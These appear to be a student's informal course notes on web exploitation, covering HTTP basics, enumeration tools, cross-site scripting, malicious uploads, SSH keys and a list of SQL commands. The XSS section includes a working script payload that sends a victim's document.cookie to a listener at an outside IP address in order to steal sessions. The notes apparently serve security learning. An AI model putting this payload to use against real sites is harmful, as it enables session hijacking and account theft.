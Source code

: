 nmap <F5 i<C-R>=strftime("%Y-%m-%d-%H:%M:%S")<CR>-- 

----------------------------------------------------------------------------------------------------------------------------
Day 2) 

Web exploitation 
------------------------
server hosts something cliet gets that thing

http is how we communcate with servers 
  - tools: wireshark tcpdump
  - GET
  - POST
  - HEAD
  - PUT
  - DEV CONSOLE
  - repsonse codes
      - 10X == info
      - 2XX success ect
  - wget command to get cookies
    - wget --save-cookies cookies.txt --keep-session-cookies --post-data 'user=1&password=2' https://website
  - enumeration
    - robots.txt
    - tools: nse scripts nikto burp suite
    - http-enum.nse
    - http-robots.txt.nse
  - cross site scripting
      - reflected (most common)
          - exploiting a volnerable browser not server 
          - stealing cookies
              - <script>document.location="http://10.50.41.112:8000/cookie.php?username=" + document.cookie;</script>
              - 
      - server-side injection
      - malicious upload
         - see what it wants
         - find your file
         - upload your file


    ssh
    ---------------------
    ssh-keygen -t rsa -b 4096
    upload public key
    ssh <user>@ip -i 
-----------------------------------------------------------------------------------------------------------------------------
Day 3) SQL 

commands standard
--------------------
- select  - extracts data from a data base 
- union   - used to combind  the rest of two or more selected statements 
- use     - selects the DB to use 
- update  - updates data in a database 
- delete  - deletes data from the DB 
- insert into  - Inserts new data into a database
- create database  -   Creates a new database
- alter database   -   Modifies a database
- create table     -   Creates a new table
- alter table      -   Modifies a table
- drop table       -   Deletes a table 
- create index     -   Creates an index (search key)
- drop index       -   Deletes an index
